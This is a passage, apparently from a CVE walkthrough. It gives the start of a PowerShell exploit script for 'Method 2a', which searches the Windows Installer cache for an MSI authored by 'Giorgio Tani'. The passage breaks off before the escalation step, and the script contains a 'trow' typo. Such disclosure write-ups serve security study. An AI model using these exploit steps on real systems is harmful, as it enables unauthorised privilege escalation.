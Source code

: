 ![](cve2-walkthrough11.png)

Below is code to automate most of the exploit (except GUI clicking):

![](cve2-walkthrough12.png)

Exploit code for Method 2a:
```
$ErrorActionPreference = "Stop"
# Find MSI file
$msi = $null
Get-ChildItem $env:windir\Installer -Filter "*.msi" | foreach {
    $shell = New-Object -COMObject Shell.Application
    $folder = Split-Path $_.FullName
    $file = Split-Path $_.FullName -Leaf
    $shellfolder = $shell.Namespace($folder)
    $shellfile = $shellfolder.ParseName($file)
    if ($shellfolder.GetDetailsOf($shellfile, 20) -eq "Giorgio Tani") {
        $msi = $_
    }
}
if ($msi -eq $null) {
    "MSI file not found"
    trow
} else {
    "MSI file found at " + $msi.FullName
}

# Get binary
```